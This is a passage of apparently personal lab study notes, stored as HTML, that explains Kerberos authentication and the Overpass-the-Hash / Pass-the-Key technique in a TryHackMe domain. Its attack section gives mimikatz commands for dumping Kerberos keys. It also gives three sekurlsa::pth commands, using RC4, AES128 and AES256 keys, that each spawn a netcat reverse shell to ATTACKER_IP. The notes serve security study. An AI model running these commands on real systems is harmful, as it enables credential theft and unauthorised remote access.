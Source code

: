 authentication</li></ul></li></ul><ul id="13643afd-cc5a-4dd7-9f99-558bc636f989" class="bulleted-list"><li style="list-style-type:disc">when authenticating to a service (e.g. share, website, or database), ticket is used (sort of like how web uses auth tokens or cookies)</li></ul><p id="eba5a0ed-0506-4988-87cd-df3f8842665f" class="">Kerberos authentication process:</p><ol type="1" id="6ed33b4b-2698-42bc-b575-85ea6c2c5901" class="numbered-list" start="1"><li>Username and timestamp encrypted using password and sent to <strong>Key Distribution Center (KDC)</strong><ul id="19e068e8-7332-46f6-b729-3b0018cd21ca" class="bulleted-list"><li style="list-style-type:disc">KDC is responsible for creating Kerberos tickets</li></ul></li></ol><ol type="1" id="708d0b07-2067-4344-a539-ec614a0ae572" class="numbered-list" start="2"><li>KDC sends back a <strong>Ticket Granting Ticket (TGT)</strong> and <strong>Session Key</strong><ul id="96aff28a-50ba-4810-af10-98d6ad7df8e4" class="bulleted-list"><li style="list-style-type:disc">TGT allows user to request additional tickets to access specific services </li></ul><ul id="6bcc4e80-c8d5-470b-8d80-4f6a349ae3b6" class="bulleted-list"><li style="list-style-type:disc">TGT encrypted with krbtgt password hash to help prevent user from tampering its contents<ul id="72c3c952-6d76-4096-9d1f-a78992d83ec7" class="bulleted-list"><li style="list-style-type:circle">TGT contain session key, expiration date, and user’s IP address</li></ul></li></ul></li></ol><ol type="1" id="5eb7cd5a-f36f-409f-94b1-b365f44e6f69" class="numbered-list" start="3"><li>When user attempts to access a service, the KDC sends a <strong>Ticket Granting Service (TGS) </strong>and <strong>Service Session Key</strong> <ul id="03348d83-350b-4f0a-9fdf-4f77c0079548" class="bulleted-list"><li style="list-style-type:disc">TGS tickets only allow a user to access a specific service</li></ul><ul id="d91c1580-36d7-445f-b541-97f5bca352fb" class="bulleted-list"><li style="list-style-type:disc">user sends username and timestamp encrypted with their session key, and also sends their TGT, and <strong>Service Principal Name (SPN)</strong><ul id="1c396f3e-a312-4444-bd1e-856f9707d3ec" class="bulleted-list"><li style="list-style-type:circle">SPN is service and server name user wants to access</li></ul></li></ul><ul id="a4f13ff2-ea34-4356-80ae-ba1e01e64d97" class="bulleted-list"><li style="list-style-type:disc">TGS encrypted with key derived from the Service Owner Hash<ul id="c536a12e-02f5-4818-8744-09ba525b5654" class="bulleted-list"><li style="list-style-type:circle">Service owner is user or machine that manages the service</li></ul></li></ul></li></ol><h3 id="cb503efd-0e1a-4634-8a7c-5b68dcea404b" class="">Overpass-the-Hash / Pass-the-Key</h3><ul id="0117ebb3-4425-481a-b60d-fcda6a366dff" class="bulleted-list"><li style="list-style-type:disc">when a user requests a TGT, a timestamp encrypted with key derived from password is used<ul id="bc33d6b7-b937-4ab7-82a4-57fcdd998be0" class="bulleted-list"><li style="list-style-type:circle">encrypted uses either DES (disabled by default on current Windows versions), RC4, AES128, or AES256</li></ul></li></ul><ul id="2d06e5ac-1899-4b2d-b1a2-22520cce38b4" class="bulleted-list"><li style="list-style-type:disc">can request KDC for TGT with just having the key and not the user’s password</li></ul><p id="bdceea2a-3e9f-4ace-8a01-8b0dfdab35b2" class=""><span style="border-bottom:0.05em solid">Obtaining Kerberos Encryption Keys</span></p><pre id="3a22f1f7-d697-4083-a9c5-a2cfa7cf5324" class="code code-wrap"><code>mimikatz# privilege::debug
mimikatz# sekurlsa::ekeys</code></pre><p id="29e30e8d-472e-4560-9f87-b98275b912db" class=""><strong>Getting Reverse Shell with Encryption Key</strong></p><p id="8476f5a4-3bea-4066-bea9-736da6763816" class=""><span style="border-bottom:0.05em solid">RC4</span></p><p id="3490bcde-51f6-4e06-ae7d-6b480c573cf4" class=""><code>mimikatz </code><code><strong>#</strong></code><code> sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:&quot;c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556&quot;</code></p><ul id="703f0fd9-21ec-476c-b104-798ec7e1a715" class="bulleted-list"><li style="list-style-type:disc">note that RC4 simply uses the user’s NTLM hash</li></ul><p id="508eb3f2-8607-4802-9775-c93c7b35761a" class=""><span style="border-bottom:0.05em solid"><span style="border-bottom:0.05em solid"><span style="border-bottom:0.05em solid"><span style="border-bottom:0.05em solid"><span style="border-bottom:0.05em solid"><span style="border-bottom:0.05em solid"><span style="border-bottom:0.05em solid">AES128
</span></span></span></span></span></span></span><code>mimikatz </code><code><strong>#</strong></code><code> sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:&quot;c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556&quot;</code></p><p id="ec30c358-57c0-4b5a-a7da-050a26a0a0a2" class=""><span style="border-bottom:0.05em solid">AES256</span></p><p id="0336c88f-4cd6-450e-b1f3-cbc352de2545" class=""><code>mimikatz </code><code><strong>#</strong></code><code> sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:&quot;c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556&quot;</code></p><p id="2e04047c-6c5b-4591-902e-de4025a763e8" class="">